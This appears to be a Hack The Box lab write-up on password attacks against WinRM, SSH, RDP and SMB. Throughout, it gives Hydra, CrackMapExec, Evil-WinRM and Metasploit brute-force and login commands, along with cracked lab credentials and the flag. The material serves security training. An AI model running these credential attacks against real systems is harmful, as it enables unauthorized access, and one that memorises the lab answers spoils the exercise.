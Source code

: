 
#### WINRM

>[! Note ]
> It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).


#### CrackMapExec

>[! Note ]
> Can be used for SMB, LDAP, MSSQL and others

**Usage**
`crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`

Example:
```go
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

Example:
```go
crackmapexec smb 10.129.42.197 -u user.list -p password.list --shares
```

#### Evil-WinRM

Allows you to communicate with WinRM 

**Usage**
`evil-winrm -i <target-IP> -u <username> -p <password>`

Example:
```go
evil-winrm -i 10.129.42.197 -u user -p password
```

#### Hydra

**Hydra-SSH**
```go
hydra -L user.list -P password.list ssh://10.129.42.197
```

Hydra-RDP
```go
hydra -L user.list -P password.list rdp://10.129.42.197
```

Hydra-SMB
```go
hydra -L user.list -P password.list smb://10.129.42.197
```

#### xFreeRDP
```go
xfreerdp /v:10.129.42.197 /u:user /p:password
```

>[! Warning]
>
> If you can encounter an error while compiling Hydra to crack an SMB password, you can re-compile or use metasploit's `auxiliary/scanner/smb/smb_login` 

### Questions

IP
```go
10.129.249.226
```

SSH
```go
ssh USERNAME@10.129.249.226
```

### Question 1

Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

#### Crackmapexec

```go
crackmapexec winrm 10.129.219.222 -u username.list -p password.list
```

Found the credentials!
```go
john:november
```

Use evil-winrm to log into the machine
```go
evil-winrm -i 10.129.219.222 -u john -p november
```

### Question 2

Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer

IP
```
10.129.219.222
```

```go
hydra -L username.list -P password.list ssh://10.129.219.222
```

Credentials
```go
dennis:rockstar
```

### Question 3

 Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```go
hydra -L username.list -P password.list rdp://10.129.219.222
```

Credentials
```go
chris:78956123
```

```go
xfreerdp /v:10.129.219.222 /u:chris /p:78956123 /dynamic-resolution /cert:ignore /log-level:DEBUG
```

### Question 4

Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```go
crackmapexec smb 10.129.219.222 -u username.list -p password.list --shares
```

Credentials
```go
john:november
```

```go
smbclient -U john \\\\10.129.219.222\\CASSIE
```

Won't let me access

#### MSFCONSOLE
```go
use auxiliary/scanner/smb/smb_login
```

```go
options
```

```go
set user_file username.list
```

```go
set pass_file password.list
```

```go
set rhosts 10.129.219.222
```

This will show the share `CASSIE` is available, indicating the user `cassie` has access

Credentials

```go
cassie:12345678910
```

```go
smbclient -U cassie '\\10.129.219.222\CASSIE'
```

HTB{R3m0t3DeskIsw4yT00easy}
